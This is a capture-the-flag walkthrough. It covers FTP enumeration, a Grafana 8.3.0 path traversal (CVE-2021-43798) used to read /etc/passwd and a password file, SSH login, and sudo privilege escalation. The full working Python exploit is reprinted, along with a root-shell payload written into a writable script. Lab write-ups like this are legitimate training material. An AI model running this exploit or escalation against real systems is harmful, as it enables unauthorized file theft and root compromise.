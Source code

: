 ```yaml
---
sticker: emoji//1f6b6
---
```

# ENUMERATION


## OPEN PORTS

![](images/Pasted%20image%2020241025014342.png)


```ad-note
OPEN PORTS

21: `FTP (Anonymous login enabled)`
22: `SSH`
80: `HTTP`
3000: `HTTP`

```

First, we need to log into ftp taking advantage of that anonymous login that's enabled:

![](images/Pasted%20image%2020241025014539.png)
We have a directory called `mantenimiento`, inside of this directory, we can find the following:

![](images/Pasted%20image%2020241025014619.png)

A `database.kdbx` file is found inside of it, let's download it to our host machine and inspect it:

![](images/Pasted%20image%2020241025014823.png)

If we try to use `keepass2` on the file, it is protected by a password, let's start with our websites enumeration to get that password.

We have two websites, let's try to enumerate them further using fuzzing and other techniques

## FUZZING

### PORT 80 WEBSITE

![](images/Pasted%20image%2020241025014929.png)

Found a `/maintenance.html` directory that may be useful, let's visit it:

![](images/Pasted%20image%2020241025015023.png)

So, seems like the password is in the `/tmp` directory, seems like we need to perform a path traversal in some sort of way to get that, let's enumerate the other website



### PORT 3000 WEBSITE

![](images/Pasted%20image%2020241025013600.png)
A lot came from it, so, fuzzing seems pretty useless here, let's visit the website:

![](images/Pasted%20image%2020241025013631.png)

Default page is a login page, something interest I found was this:


![](images/Pasted%20image%2020241025015156.png)


Seems like it is running a `grafana` om the `v8.3.0`, let's search for some exploit in this version

![](images/Pasted%20image%2020241025015326.png)

Perfect, found exactly what I needed, a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/PATH TRAVERSAL|path traversal]] vulnerability that allow us to read that `/tmp/pass.txt` file:

```ad-important
exploit: [exploit](https://www.exploit-db.com/exploits/50581)
```

```python
# Exploit Title: Grafana 8.3.0 - Directory Traversal and Arbitrary File Read
# Date: 08/12/2021
# Exploit Author: s1gh
# Vendor Homepage: https://grafana.com/
# Vulnerability Details: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p
# Version: V8.0.0-beta1 through V8.3.0
# Description: Grafana versions 8.0.0-beta1 through 8.3.0 is vulnerable to directory traversal, allowing access to local files.
# CVE: CVE-2021-43798
# Tested on: Debian 10
# References: https://github.com/grafana/grafana/security/advisories/GHSA-8pjx-jj86-j47p47p

#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import requests
import argparse
import sys
from random import choice

plugin_list = [
    "alertlist",
    "annolist",
    "barchart",
    "bargauge",
    "candlestick",
    "cloudwatch",
    "dashlist",
    "elasticsearch",
    "gauge",
    "geomap",
    "gettingstarted",
    "grafana-azure-monitor-datasource",
    "graph",
    "heatmap",
    "histogram",
    "influxdb",
    "jaeger",
    "logs",
    "loki",
    "mssql",
    "mysql",
    "news",
    "nodeGraph",
    "opentsdb",
    "piechart",
    "pluginlist",
    "postgres",
    "prometheus",
    "stackdriver",
    "stat",
    "state-timeline",
    "status-histor",
    "table",
    "table-old",
    "tempo",
    "testdata",
    "text",
    "timeseries",
    "welcome",
    "zipkin"
]

def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass

def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    args = parser.parse_args()

    try:
        exploit(args)
    except KeyboardInterrupt:
        return


if __name__ == '__main__':
    main()
    sys.exit(0)
            
```


# EXPLOITATION

## LAUNCHING THE EXPLOIT

So, with the exploit in our hands, let's start with the next stage, let's launch the attack and try to read `/etc/passwd` to check if it works:

![](images/Pasted%20image%2020241025015835.png)
And it works correctly, let's read our `/tmp/pass.txt` file!

![](images/Pasted%20image%2020241025015908.png)

```ad-hint
`/tmp/pass.txt`: `t9sH76gpQ82UFeZ3GXZS`
```


Nice, we got what we needed, let's log in ssh using that password and the user `freddy` we previously read in that `/etc/passwd` file:

![](images/Pasted%20image%2020241025020149.png)

Nice, we got access, let's start with the privilege escalation.

# PRIVILEGE ESCALATION



## SUDO -L

![](images/Pasted%20image%2020241025020240.png)

Seems like we have a `/opt/maintenance.py` file we can exploit in order to get root access, let's check at the code:

![](images/Pasted%20image%2020241025020359.png)

Something simple, just a print statement on it, let's check if we can write in it:

![](images/Pasted%20image%2020241025020446.png)

And we can indeed write in it, let's escalate our privileges, for this, I used this code:

```python
import os
os.system("/usr/bin/python3 -c 'import os; os.system(\"/bin/bash\")'")
```

This will pop a new shell with root privileges:

![](images/Pasted%20image%2020241025020740.png)

And just like that, the CTF is done!